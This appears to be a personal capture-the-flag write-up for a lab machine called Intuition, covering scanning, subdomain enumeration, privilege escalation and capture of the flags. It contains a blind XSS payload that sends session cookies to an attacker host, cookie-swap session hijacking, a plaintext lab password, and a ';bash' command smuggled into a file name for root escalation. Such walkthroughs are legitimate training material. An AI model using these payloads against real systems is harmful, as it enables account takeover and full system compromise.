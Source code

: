 **Ping**
![[Pasted image 20240711115329.png]]

Nmap Scans
```
mapit 10.10.11.15
```

Nmap Default Scan
![[Pasted image 20240711115424.png]]

Nmap Script and Service Scan
![[Pasted image 20240711115454.png]]

Nmap All Port Scan
![[Pasted image 20240711115511.png]]

Updated my host file
![[Pasted image 20240711115630.png]]

On Port 80 http://comprezzor.htb/
![[Pasted image 20240711115800.png]]

Subdomain Enumeration using ffuf
```
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://comprezzor.htb -H "Host: FUZZ.comprezzor.htb"
-fs 178
```
![[Pasted image 20240711122153.png]]

Found three subdomains, will add it to our hots file
![[Pasted image 20240711122432.png]]

On http://auth.comprezzor.htb
![[Pasted image 20240711122409.png]]

On http://report.comprezzor.htb/
![[Pasted image 20240711122524.png]]

I have registered a new account and logged in and able to send a report, this form is vulnerable to blind xss
```
<img src=x onerror='eval(atob("ZmV0Y2goJ2h0dHA6Ly8xMC4xMC4xNC42OjQ0NDQvP2Nvb2tpZT0nK2RvY3VtZW50LmNvb2tpZSk="));'
```
base64 Decoded version
```
<img src=x onerror='eval(atob("fetch('http://10.10.14.6:4444/?cookie='+document.cookie)"));' />
```
![[Pasted image 20240711124215.png]]

Got a user cookie, will use this cookie to login as a another user, he might be admin
![[Pasted image 20240711124356.png]]
Can see the origin http://dashboard.comprezzor.htb Will catch the request first
![[Pasted image 20240711130012.png]]

Now will replace the cookie
```
eyJ1c2VyX2lkIjogMiwgInVzZXJuYW1lIjogImFkYW0iLCAicm9sZSI6ICJ3ZWJkZXYifXw1OGY2ZjcyNTMzOWNlM2Y2OWQ4NTUyYTEwNjk2ZGRlYmI2OGIyYjU3ZDJlNTIzYzA4YmRlODY4ZDNhNzU2ZGI4
```
eyJ1c2VyX2lkIjogNiwgInVzZXJuYW1lIjogIm5pc2giLCAicm9sZSI6ICJ1c2VyIn18MWI5NGRmMzViOWQ1ODNjZTU4NDY1MDgwZDIzOTk2NjQwNjIyMjE5NWMyZjdkY2NjMWU3YzNmZWRkMzk0ZmMwZg==
![[Pasted image 20240711130114.png]]

Then forward....and Got it...>!
![[Pasted image 20240711130242.png]]


Have to set priority to 1 from our report, so admin will access it, I think the machine as issue, It is not showing my request in the dashboard, so tried hell lot of way, end with machine isssue


Jump to privilege escalation....!

SSH with user lopez and password Lopezz1992%123
```
ssh lopez@10.10.11.15
```
![[Pasted image 20240711135615.png]]

Lopez can run runner2 as root
```
sudo -l
```
![[Pasted image 20240711135748.png]]

Will use this to escalate our privilege
![[Pasted image 20240711142215.png]]

Download the v0.0.3.tar.gz from this link https://github.com/coopdevs/sys-admins-role/archive/v0.0.3.tar.gz
And move the content of v0.0.3.tar.gz to admin.tar.gz;bash
then create pwn.json file with following content
```
{
        "run":{
                "action":"install",
                "role_file":"admin.tar.gz;bash"
        },
        "auth_code":"UHI75GHINKOP"
}
```

Then run this command to escalate to root
```
sudo /opt/runner2/runner2 pwn.json
```
![[Pasted image 20240711142521.png]]

**User.txt**
![[Pasted image 20240711142706.png]]

**Root.txt**
![[Pasted image 20240711142618.png]]





Done with Intuition......:)